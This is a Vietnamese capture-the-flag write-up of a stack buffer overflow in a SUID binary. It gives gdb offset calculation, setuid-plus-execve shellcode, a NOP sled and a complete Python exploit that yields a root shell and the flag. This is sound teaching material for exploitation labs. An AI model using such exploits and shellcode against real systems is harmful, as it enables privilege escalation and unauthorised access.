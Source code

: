 # UNNAMED - CYBERCLASS     

<p align="center">
  <img src="image/a.png"  alt="meo coding logo" style="height: 100px; width:100px;"  />
</p>

<p align="center"> <b> Write up by: Zunn</b></p> 

# EXTRA CREDIT - CYBERCLASS

## Contents

- [Introduction](#Introduction)
------

- Công cụ em sử dụng để debug là gdb (plugin peda)
- Mã khai khác em viết bằng code python .

## INTRODUCTION

![alt text](image/de.png "Title")

![alt text](image/2.png "Title")

Đề bài cho ta 1 file executable và được chạy dưới quyền suid, nhiệm vụ phải lon ton lên root để tìm được flag. Đầu tiên chạy file executable xem có gì trong đó nào...

![alt text](image/3.png "Title")

Hmmmm.....có vẻ như chương trình chỉ in ra lại những gì đã được nhập vào và không còn thông tin nào thêm. Tuy nhiên, ta sẽ bắt đầu tìm hiểu file binary bằng cách in ra xâu có độ dài khá lớn.

```r
  python3 -c "print( 'a' * 10000)" | ./secret
```

![alt text](image/4.png "Title")

`Segmentation fault` :3 Quả nhiên secret bị crash với test của chúng ta. Dễ dàng nhận thấy lỗ hổng stack base `buffer overflow` rất rõ ràng. 

## GDB secret

Để thuận tiện hơn ta sẽ tạo một file  a.txt để chứa xâu ta cần nhập và ta dùng echo để ghi đè dữ liệu vào.

```r
echo'padding = 100 * 'a'
print (padding)'> a.py
```

```r
python3 a.py> a.txt
```

Giờ thì mở gdb lên để phân tích.

![alt text](image/5.png "Title")

Nhìn vào ta thấy chỗ tốt nhất để break point là leave trước return istruction. Dòng thứ hai từ dưới main lên.

![alt text](image/6.png "Title")

Sau khi run, dựa vào info name ta xác định được đây là [64-bit Stack-based Buffer Overflow](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow) và `rip at 0x7fffffffe5b8`

Để tìm buffer’s size, một trong những cách ta có thể dùng sẽ lấy `rip - rsp` . Dùng câu lệnh sau để show 24wx từ vị trí đầu stack.

```
x/24wx $rsp
```

![alt text](image/8.png "Title")

Dòng đầu tiên ta thấy địa chỉ `0x7fffffffe1b0` mang giá trị `0x61616161` : kí tự `a` bé. Đây chính là đầu vào của chúng ta, yeye đã biết địa chỉ đầu stack giờ ta tính buffer’s size.

```r
 p/d 0x7fffffffe5b8 - 0x7fffffffe1b0
```

![alt text](image/9.png "Title")

## SHELLCODE

Chuyện gì sẽ xảy ra nếu như ta thay đổi thanh ghi RIP thành địa chỉ Shellcode, rõ ràng, chương trình sẽ chạy Shellcode của chúng ta rồi. Thú vị rồi đây.

Khá là đầy đủ thông tin giờ sau khi tim offset. Ta tiến hành tìm một đoạn shellcode trên Google (shell-storm, exploit-db, packetstormsecurity). Có kha khá khác nhau để code shell nhưng em sẽ dùng cách `padding + RIP + NOP + shellcode`

`Shellcode: Là đoạn code mà chúng ta muốn chương trình execute.`

Dựa vào các thông tin như: 64 bit và file binary chạy dưới quyền suid. Vậy shellcode sẽ thực thi /bin/sh thì chúng ta sẽ get a root shell. Ok!! Giờ thì ta lên [Shell-strom](http://shell-storm.org/shellcode/#:~:text=by%20Christina%20Quast-,Intel%20x86%2D64,-Linux/x86%2D64) tìm thôiiiiiiii.

Sau khi tìm kiếm và xem xét điều kiện cần và đủ shell code này là phù hợp:

```r
\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05
```

## NOPSLED

`Nopsled: 0x90 nghĩa là không thực hiện điều gì`

Về cơ bản, không có thao tác nào được sử dụng để đảm bảo rằng việc khai thác của chúng ta không bị lỗi, bởi vì chúng ta không phải lúc nào cũng trỏ đến đúng địa chỉ.Vì vậy chúng ta thêm những thứ không có tác dụng gì và chúng ta trỏ đến chúng, sau đó khi chương trình thực thi nó. Và quaoo sẽ tiếp cận các NOP đó và tiếp tục thực thi cho đến khi nó đạt đến shellcode.

Giờ ta buid code thoi

```r
import struct
offset = 1032
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
print (padding + RIP + NOP + shellcode)
```

`Trong quá trình code ta nhận thấy hoặc giờ em mới thấy :))`

[TypeError: can only concatenate str (not "bytes") to str ](
https://bobbyhadz.com/blog/python-typeerror-can-only-concatenate-str-not-bytes-to-str#:~:text=The%20Python%20%22TypeError%3A%20can%20only,string%20before%20concatenating%20the%20strings
)

Giờ chúng ta sẽ gdb để kiểm tra và chọn địa chỉ của NOP ( tốt nhất là nó nằm ở giữa )

![alt text](image/10.png "Title")

Hmmmmmmmm.... chúng ta đang lỗi gì đó dấu '`>`' không chuyển được kí tư utf-8. Giờ ta sẽ nhập xuất file xem như thế nào

```r
import struct
offset = 1032
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
p = (padding + NOP + shellcode)
file = open('a.txt' ,'wb')
file.write(p)
file.close()
```

![alt text](image/12.png "Title")

Excute file python thoi -> `python3 a.py > a.txt` và xác định NOP.

![alt text](image/13.png "Title")

Ye rất đúng theo suy nghĩ của chúng ta. Vì shell code chúng ta nằm ở cuối nên ta sẽ in từ vị trí rsp

```
(gdb) x/100xg $rbp
```
![alt text](image/14.png "Title")

![alt text](image/15.png "Title")

Ta sẽ lấy NOP ở giữa  `0x7fffffffe710` để tránh chênh lệch khi chương trình thực thi. Sau khi có đầy đủ mọi thứ ta sẽ hoàn chỉnh chương trình như sau:

```r
import struct
offset = 1032
RIP = struct.pack('Q',0x7fffffffe710)
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
p = (padding + RIP + NOP + shellcode)
file = open('a.txt' ,'wb')
file.write(p)
file.close()
```

Tiến hành chạy lại secret xem có lên được shell hay không?

 ```r
 (cat a.txt ; cat) | ./secret
 ```

![alt text](image/16.png "Title")

Okie, code exploit đã chạy và chúng ta đạ execute shellcode thành công. Thế là ta đã thành công lkhai tháo lỗi Buffer Overflow rồi. Giờ lấy flag thoiii!!

![alt text](image/17.png "Title")

Ta đã leo lên root nên chỉ cần  `cd /root` ta sẽ thấy file tên `flag-whoa.txt` . OHHHH `cat flag-whoa.txt` ta được flagggg

 ```r
 CYBERCLASS{WHOA-BAN-DINK-KOUT-WA-CHUC-MUNG-BAN-!!!}
 ```
